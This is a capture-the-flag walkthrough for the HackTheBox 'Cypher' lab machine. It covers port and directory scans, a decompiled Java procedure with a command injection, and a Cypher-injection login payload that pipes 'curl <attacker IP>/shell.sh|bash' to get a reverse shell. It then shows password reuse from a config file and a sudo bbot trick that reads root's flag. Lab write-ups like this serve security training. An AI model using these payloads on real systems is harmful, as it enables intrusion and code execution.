 1,Recon
port scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Check `whatweb` here
```
http://cypher.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.57], JQuery[3.6.1], Script, Title[GRAPH ASM], nginx[1.24.0]

```

Seems like nothing interesting here.

Page check
![](images/Pasted%20image%2020250307173520.png)
By fuzz the valid web-contents, I found 
```
about                   [Status: 200, Size: 4986, Words: 1117, Lines: 179, Duration: 26ms]
api                     [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 43ms]
demo                    [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
index                   [Status: 200, Size: 4562, Words: 1285, Lines: 163, Duration: 30ms]
index.html              [Status: 200, Size: 4562, Words: 1285, Lines: 163, Duration: 30ms]
login                   [Status: 200, Size: 3671, Words: 863, Lines: 127, Duration: 40ms]
testing                 [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 28ms]

```
In this place, `/testing` would be interesting here.
![](images/Pasted%20image%2020250307173821.png)
Then we can get the jar file here, we can use `jd-gui` to decompile it 
![](images/Pasted%20image%2020250309183147.png)
Then we can find the command injection here.
```
  
public class CustomFunctions {  
  @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)  
  @Description("Returns the HTTP status code for the given URL as a string")  
  public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {  
    if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://"))  
      url = "https://" + url;   
    String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };  
    System.out.println("Command: " + Arrays.toString((Object[])command));  
    Process process = Runtime.getRuntime().exec(command);  
    BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));  
    BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));  
    StringBuilder errorOutput = new StringBuilder();  
    String line;  
    while ((line = errorReader.readLine()) != null)  
      errorOutput.append(line).append("\n");   
    String statusCode = inputReader.readLine();  
    System.out.println("Status code: " + statusCode);  
    boolean exited = process.waitFor(10L, TimeUnit.SECONDS);  
    if (!exited) {  
      process.destroyForcibly();  
      statusCode = "0";  
      System.err.println("Process timed out after 10 seconds");  
    } else {  
      int exitCode = process.exitValue();  
      if (exitCode != 0) {  
        statusCode = "0";  
        System.err.println("Process exited with code " + exitCode);  
      }   
    }   
    if (errorOutput.length() > 0)  
      System.err.println("Error output:\n" + errorOutput.toString());   
    return Stream.of(new StringOutput(statusCode));  
  }
```
The injection point is here:
`String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};`
In summary, the code is used to make an HTTP request and return the HTTP status code, which is a good attack vector for us.

To exploit this, we need to go to the login page. This page is vulnerable to Cypher Injection, so let's use this payload in the "username" parameter: 
```
{"username":"admin' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com;curl 10.10.xx.xx/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"Password123"}
```
Then our request would be 
```
POST /api/auth HTTP/1.1
Host: cypher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 29
Origin: http://cypher.htb
DNT: 1
Sec-GPC: 1
Connection: close
Referer: http://cypher.htb/login
Priority: u=0

{"username":"admin' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com;curl 10.10.16.10/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"Password123"}
```
Then remember make your own shell.sh and open the netcat to listen the port

Finally, we can get the user shell as `neo4j`

2, shell as `graphasm`
Then we can find a file `bbot_preset.yml` from `/home/graphasm`
```
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```
Very luckily, we can login to `graphasm` by using the password before `cU4btyib.20xtCMCXkBmerhK`

3, shell as root
Firstly, I would like check the `sudo -l` 
```
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

For privilege escalation, while logged in as the graphasm user, using "sudo -l" we see that we can execute a binary as root. Just run this command to obtain the root.txt: `sudo /usr/local/bin/bbot -cy /root/root.txt -d --dry-run`
